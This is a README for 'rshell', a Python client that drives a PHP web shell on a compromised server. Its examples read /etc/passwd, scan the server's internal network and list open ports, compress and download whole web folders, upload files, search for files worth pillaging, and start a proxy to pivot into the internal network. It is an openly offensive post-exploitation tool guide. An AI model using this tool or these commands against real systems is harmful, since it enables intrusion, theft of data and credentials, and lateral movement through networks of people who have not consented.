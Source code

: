 
# rshell
## Interactive command line interpreter using a web shell

###Usage:
	python rshell.py -u shell_url [-p proxy:port]
####Examples:
	* python rshell.py -u http://127.0.0.1/shell.php

		#Get the ips assigned to the server interfaces
		rshell:~ get_local_ips
		{'127.0.0.1': {'mask_bits': 8}, '192.168.1.8': {'mask_bits': 24}}

		#Find hosts in the server internal network
		rshell:~ find_hosts

		IP: 192.168.1.3
		Host name: 
 
		IP: 192.168.1.2
		Host name: 
		 
		IP: 192.168.1.1
		Host name: 
		23/tcp    open  telnet
		53/tcp    open  domain
		80/tcp    open  http
		52869/tcp open  unknown
		 
		IP: 192.168.1.8
		Host name: 
		22/tcp  open  ssh
		80/tcp  open  http
		111/tcp open  rpcbind
		139/tcp open  netbios-ssn
		445/tcp open  microsoft-ds

		#Run a command on the server side
		rshell:~ cat /etc/passwd

		#Run a command on the client side
		rshell:~ !command_in_client_side

		#Compress and download a folder
		rshell:~ dwfolder /var/www/html

		#Start a proxy to pivot to the internal network
		#You have to configure your browser proxy settings to localhost:8888
		rshell:~ start_proxy

	* python rshell.py -u http://127.0.0.1/shell.php -p proxy:port

###Functionality
 - check_files 
        Check existence of some files extracted from
        pillage.lst from pwnwiki (https://github.com/pwnwiki)
        usage: check_files
 - compress_folder 
        Compress a folder in the the server
        usage: dwfolder compressed_file_name
 - download 
        Download a file from the server
        usage: download remote_path/remote_file local_path/local_file
 - dwfolder 
        Compress and download a entire folder from the server
        usage: dwfolder folder_path
 - exit 
        This is the exit command
 - find_hosts 
        Find hosts on local network
        usage: find_hosts
 - get_local_ips 
        Get ips assigned to the local interfaces
        usage: get_local_ips
 - get_os 
        Get information about the operating system using php
        usage: get_os
 - getswversion 
        Print some software versions
        usage: getswversion
 - getsysinfo 
        Print user and system information
        usage: getsysinfo
 - help 
        This command show the list of commands
 - payload 
        Print the payload to write in an executable file in the server
 - phpinfo 
        Extract the phpinfo result and open it in a web browser
 - print_hosts 
        Print the hosts finded whith the command find_hosts
        usage: print_hosts
 - print_local_ips 
        Print local ips
        usage: print_local_ips
 - quit 
        This is the exit command
 - set_password None
 - shell 
        This method execute the command locally
 - sql_connect None
 - start_proxy 
        Start a local http proxy server to surf the internal network
        usage: start_proxy
 - stop_proxy 
        Stop the proxy server
        usage: stop_proxy
 - upload 
        Upload a file to the server
        usage: upload local_path/local_file remote_path/remote_file
